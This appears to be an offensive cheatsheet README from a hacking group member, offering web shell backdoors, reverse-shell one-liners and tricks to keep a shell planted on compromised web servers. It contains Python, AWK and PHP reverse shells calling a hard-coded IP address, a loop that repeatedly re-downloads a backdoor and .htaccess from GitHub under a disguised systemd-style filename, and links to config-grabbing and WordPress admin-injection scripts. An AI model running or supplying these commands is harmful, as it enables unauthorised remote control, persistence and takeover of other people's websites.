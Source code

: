 # Cheatsheet Shells & Payloads & Other By [@CallMeRep](https://t.me//CallMeRep)

## Summary
* [BackConnect Bypass](#trick-backconnect-bypass)
* [Tools](#tools)
* [ Example List Vulnerability ]
   * [AWS TAKEOVER S3](https://github.com/t101804/repshare/blob/main/aws_vuln_with_region.txt)
* [ Default Index CMS ]
   * [Index Joomla](https://github.com/t101804/repshare/blob/main/index_joomla.php)
* [ Shell Backdoor Bypass/Non ]
    * [Alfa Shells](https://github.com/t101804/repshare/blob/main/alfa.php)
    * [Evil Twin Shells](https://github.com/t101804/repshare/blob/main/eviltwin.php)
    * [Gecko Shells](https://github.com/t101804/repshare/blob/main/gk.php)
    * [Gecko JPG Shells](https://github.com/t101804/repshare/blob/main/gkjpg.jpg)
    * [Open Source Shells](https://github.com/t101804/repshare/blob/main/ac.php)
    * [Commander RCE Shell Bypass](https://github.com/t101804/repshare/blob/main/commander.php) 
    ```
    commander.php?command=[executeurcommand] then the response you can access in /output_command.txt
    ```
    * [SSI Shell](https://github.com/t101804/repshare/blob/main/ssial.shtml) 
    * [indoXploit Shell](https://github.com/t101804/repshare/blob/main/idx.php) 
    * [marijuana shell](https://github.com/t101804/repshare/blob/main/m4rijuana.php) 
    * [r57 shells](https://github.com/t101804/repshare/blob/main/r.php)
## Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Trick Defend Shells
### Anti Delete Command without Root Privilages : 
```
curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; while true; do echo $(TZ=Asia/Jakarta date); if [ ! -f ac.php ] || ([ -f ac.php ] && ! grep -q '@CallMeRep' ac.php); then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi; if [ -r .htaccess ] && [ -w .htaccess ] && ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; then curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess; fi; echo $(TZ=Asia/Jakarta date); sleep 2; done
```
#### Script for that if you want see detail script
```
wget https://raw.githubusercontent.com/t101804/repshare/main/priv8_anti_delet.sh
```
## Tools
- [reverse-shell-generator](https://www.revshells.com/)
- [mass-grab-config-joomla&wp-vhost-symlink](https://github.com/t101804/repshare/blob/main/mass_vghost_config_grab.py)
- [linux_privilage_check_that_i_use](https://github.com/sleventyeleven/linuxprivchecker)
```
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
python linuxprivchecker.py -w -o linuxprivchecker.log
```
- [auto-add-admin-user-to-wordpress](https://github.com/t101804/repshare/blob/main/wp_add_admin.php)
Credit by (revshell)[revshells.com] and @CallMeRep and (@haxor1337x)[https://github.com/haxor1337x]
